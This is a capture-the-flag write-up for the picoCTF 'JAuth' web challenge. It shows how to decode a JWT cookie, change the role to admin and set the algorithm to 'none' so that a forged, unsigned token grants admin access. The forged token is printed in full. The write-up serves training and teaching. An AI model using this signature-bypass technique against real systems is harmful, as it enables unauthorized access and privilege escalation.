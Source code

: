 # JAuth

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoGym Exclusive, Web Exploitation
Author: GEOFFREY NJOGU

Description:
Most web application developers use third party components without testing their security. 

Some of the past affected companies are:
 * Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
 * Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
 * VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?

You can login as test with the password Test123! to get started.

Hints:
1. Use the web browser tools to check out the JWT cookie.
2. The JWT should always have two (2) . separators.
```

## Solution

### Connect to the website

Browse to the web site and login with `test:Test123!`

Next use your browsers DevTools (press F12) and select the Application tab. Then select the `token` cookie.

![The Token Cookie](The_Token_Cookie_in_DevTools.png)

Copy the cookie which should look like this
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjkwMjIzODc4fQ.XbdYap8wn4MDxo8PiK0XYjRv2hE-UHrSa8xlLmTGbEo
```

This is a Java Web Token (JWT) and it consists of 3 parts separated by dots:
 * Header
 * Payload
 * Signature

### Decode the JWT token

Decode the [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) on an online service such as [Token.Dev](https://token.dev/). Replace the dummy/demo JWT with your data.

The data is base64-decoded and you can see that the header contains
```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

And the payload contains
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1690223878
}
```

The `auth` and `iat` fields are timestamps and will be different in your case.
Note that the `role` field says "user".

### Create a new JWT token

Instead of role `user` we want to be `admin`, so change this field
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "admin",
  "iat": 1690223878
}
```

But now we have a problem. The signature isn't valid anymore.  
However, we can bypass this by changing the algorithm to `none`. This disables/removes the signature.
```
{
  "typ": "JWT",
  "alg": "none"
}
```

Copy the new JWT and remember the hint. A JWT should always have two periods and our new JWT only have one.  
So add an additional period at the end.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY5MDIyMzg3OH0.
```

### Use the new JWT token to get the flag

Go back to the browser and replace the `token` cookie with the new one. Then reload the page (press F5).  
You should now see the following message with the flag.
```
Hello, admin! You have logged in as admin!
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token)
